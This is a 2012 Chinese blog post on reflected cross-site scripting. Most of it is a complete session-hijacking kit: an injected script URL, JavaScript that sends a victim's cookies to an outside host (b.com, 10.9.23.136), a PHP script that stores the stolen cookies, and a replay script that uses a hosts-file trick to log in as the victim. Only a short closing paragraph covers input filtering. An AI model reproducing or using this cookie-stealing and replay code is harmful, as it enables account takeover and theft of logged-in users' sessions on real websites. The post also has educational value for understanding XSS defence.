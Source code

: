 ```yaml
---
author: qicfan
comments: true
date: 2012-01-16 10:29:21+00:00
layout: post
slug: '%e6%81%b6%e5%bf%83%e7%9a%84xss%e8%b7%a8%e7%ab%99%e6%94%bb%e5%87%bb'
title: 恶心的XSS跨站攻击
wordpress_id: 371
categories:
- 技术杂谈
tags:
- xss
- 跨站
- 跨站脚本攻击
---
```


所谓的XSS，也就是大家熟知的跨站脚本攻击，不知道的自己谷歌充电去。XSS足够隐蔽，尤其是对一些没有经验的程序员，可能很难发现，下面举个例子：
网站a.com有用户登陆功能，并且可以保存用户登陆信息；还有一个搜索功能，搜索的URL类似这样:http://a.com/search?keyword=keyword，一般来说keywod我们都会显示在页面上，如果有一个粗心的程序员偷懒了，直接echo $_GET['keyword']，那么一个XSS漏洞便诞生了，怎么利用这个漏洞呢，很简单我们将keyword写成一个JS调用比如：http://a.com/search?keyword=<script type='text/javascript' src='http://b.com/xss.js'></script>，这样这个script就完整的显示在页面上了，该搜索页面就调用了b.com的一个JS文件。

这个JS文件有啥用呢？有点常识的同学都知道JS能取到COOKIE，前面我们已经铺垫了，a.com可以允许用户保持在线，这个时候我们的JS文件就可以将用户当前登陆的COOKIE发送到http://b.com/xss.php，嗯，发送到我们的一个PHP文件，这个PHP文件可以将发送过来的cookie记录到数据库或者写入到文件里，留待我们日后使用，下面上点简单的代码：

http://b.com/xss.php

    
    /**
     * http://b.com/xss.js
     * 这里没有调用jquery，但是这些代码依赖jquery，所以需要的朋友请加上jquery调用
     */
    String.prototype.trim= function(){ 
    	return this.replace(/(^\s*)|(\s*$)/g, "");  
    }
    var cookies = document.cookie;
    cookies = cookies.split(';');
    var new_cookie = '';
    for (var i=0; i<cookies.length; i++) {
    	var c = cookies[i];
    	c = c.trim();
    	new_cookie += '&' + c;
    }
    new_cookie = new_cookie.substring(1);
    var xssurl = "http://10.9.23.136/xss.php?" + new_cookie;
    var xssjs = $("<script src=""+xssurl+"" type="text/javascript"></script>");
    $('body').append(xssjs);


http://b.com/xss.php

    
    /**
     * http://b.com/xss.php
     * 这里将传递过来的用户的cookie写入到文件中保存，留待日后使用
     */
    // 得到所有的cookie并且序列化
    $data = serialize($_GET);
    // 生成存储的文件名
    $file = md5(time()). '.txt';
    // 写入文件
    file_put_contents($file, $data);


经过上面两步，我们得到了用户的cookie，如果该点击这个url的用户刚好登陆过，并且记录了登陆信息，那么我们就很幸运了，下面讲讲怎么使用我们得到的这写cookie，首先我们要写一个脚本setcookie.php，然后我们修改hosts文件，做一个127.0.0.1 a.com的解析，是a.com解析为127.0.0.1，这样我们就可以很方便的在本地写入a.com的cookie，下面是setcookie.php的脚本：

    
    /**
     * http://a.com/setcookie.php.php(即http://127.0.0.1/setcookie.php)
     * 这里将cookie写入到a.com的域中（其实是本地操作）
     */
    // 文件名取前面保存在目录下的文件
    $data = file_get_contents('asdf132423adf2342341.txt');
    // 反序列话得到cookie数组
    $data = unserialize($data);
    // 写入cookie
    foreach ($data as $k=>$v) {
    	setcookie($k, $v, 0, '/', '.a.com');
    }


好了，现在访问a.com，是不是发现你已经作为某用户登陆了呢？嘿嘿，这就是一个简单的XSS跨站脚本攻击的雏形，利用起来很简单，有点编程经验的人就可以写攻击代码。

下面说说解决的方法：
做码农的都知道不信任客户端的任何数据，但是我们有时候就是记不住这跳金科玉律，不做过滤就输出那是常事儿；所以我们只要保证对所有经手客户端的数据进行过滤就可以解决这个问题；跨站脚本攻击，脚本都无法执行，怎么攻击，其实就这么简单。

话说回来，现在看来一个好的框架，确实能省不少的事儿，大部分的框架都可以实现在最前端对参数进行过滤帮助粗心的程序员解决问题，当然特殊需求除外。

好了，就说这么多，大家多注意哦。


